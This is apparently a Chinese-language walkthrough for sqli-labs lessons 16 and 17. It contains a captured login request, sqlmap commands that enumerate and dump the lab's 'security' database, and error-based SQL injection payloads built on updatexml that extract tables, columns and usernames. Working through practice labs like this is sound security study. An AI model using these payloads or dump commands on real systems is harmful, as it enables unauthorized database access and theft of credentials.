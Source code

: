 sqlmap,burpsuite抓包

```bash
POST /Less-16/ HTTP/1.1
Host: 192.168.31.193
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/Less-16/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

passwd=admin&uname=admin
```

```bash
sqlmap -r 1.txt -p 'uname' --level 2 --batch
爆破数据库
sqlmap -r 1.txt -p 'uname' --level 2 --batch --current-db
爆破表
sqlmap -r 1.txt -p 'uname' --level 2 --batch -D security --tables
脱库
sqlmap -r 1.txt -p 'uname' --level 2 --batch -D security --dump
```

# Pass17

```bash
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
```

`uname=1'`

> \[PASSWORD RESET]

提示密码重设置,
&#x20;**注入点是密码的位置** <a name="irTrU"></a>

报错注入

```bash
查询数据库表
passwd=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)-- +
爆破数据表
passwd=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
passwd=1' and updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
passwd=1' and updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +
```
